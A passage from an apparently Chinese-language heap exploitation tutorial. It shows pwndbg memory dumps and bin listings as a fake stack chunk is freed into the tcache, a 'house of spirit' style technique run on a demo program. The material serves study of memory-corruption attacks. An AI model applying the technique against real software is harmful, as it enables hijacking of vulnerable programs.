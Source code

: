 ```c
a = 0x7fffffffdfa0 #指向fake_chunks_data
fake_chunks = {8, 64, 140737488347144, 240, 1, 4196141, 140737351932400, 0, 4196064, 4195568}
pwndbg> x/16gx &fake_chunks
0x7fffffffdf90:	0x0000000000000008	0x0000000000000040
0x7fffffffdfa0:	0x00007fffffffe008	0x00000000000000f0
0x7fffffffdfb0:	0x0000000000000001	0x000000000040072d
0x7fffffffdfc0:	0x00007ffff7de59f0	0x0000000000000000
0x7fffffffdfd0:	0x00000000004006e0	0x00000000004004f0
0x7fffffffdfe0:	0x00007fffffffe0d0	0x00007fffffffdfa0
0x7fffffffdff0:	0x00000000004006e0	0x00007ffff7a05b97
0x7fffffffe000:	0x0000000000000001	0x00007fffffffe0d8
pwndbg> 
```

接下来对fake_chunks进行free：对代码第17行下断点，继续运行程序：

```c
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x601000
Size: 0x251

Allocated chunk | PREV_INUSE
Addr: 0x601250
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x601270
Size: 0x20d91

pwndbg> x/100gx 0x601000
0x601000:	0x0000000000000000	0x0000000000000251
0x601010:	0x0000000000010000	0x0000000000000000
    		#tcache_bin_count
......(省略内容均为空)
0x601050:	0x0000000000000000	0x0000000000000000
0x601060:	0x00007fffffffdfa0	0x0000000000000000
    		#指向fake_chunks_data
0x601070:	0x0000000000000000	0x0000000000000000
......(省略内容均为空)
0x601250:	0x0000000000000000	0x0000000000000021
0x601260:	0x0000000000000000	0x0000000000000000
0x601270:	0x0000000000000000	0x0000000000020d91
......(省略内容均为空)
0x601310:	0x0000000000000000	0x0000000000000000
pwndbg> info local
a = 0x7fffffffdfa0
fake_chunks = {8, 64, 0, 240, 1, 4196141, 140737351932400, 0, 4196064, 4195568}
pwndbg> x/16gx &fake_chunks
0x7fffffffdf90:	0x0000000000000008	0x0000000000000040
0x7fffffffdfa0:	0x0000000000000000	0x00000000000000f0
0x7fffffffdfb0:	0x0000000000000001	0x000000000040072d
0x7fffffffdfc0:	0x00007ffff7de59f0	0x0000000000000000
0x7fffffffdfd0:	0x00000000004006e0	0x00000000004004f0
0x7fffffffdfe0:	0x00007fffffffe0d0	0x00007fffffffdfa0
0x7fffffffdff0:	0x00000000004006e0	0x00007ffff7a05b97
0x7fffffffe000:	0x0000000000000001	0x00007fffffffe0d8
pwndbg> bin
tcachebins
0x40 [  1]: 0x7fffffffdfa0 ◂— 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
```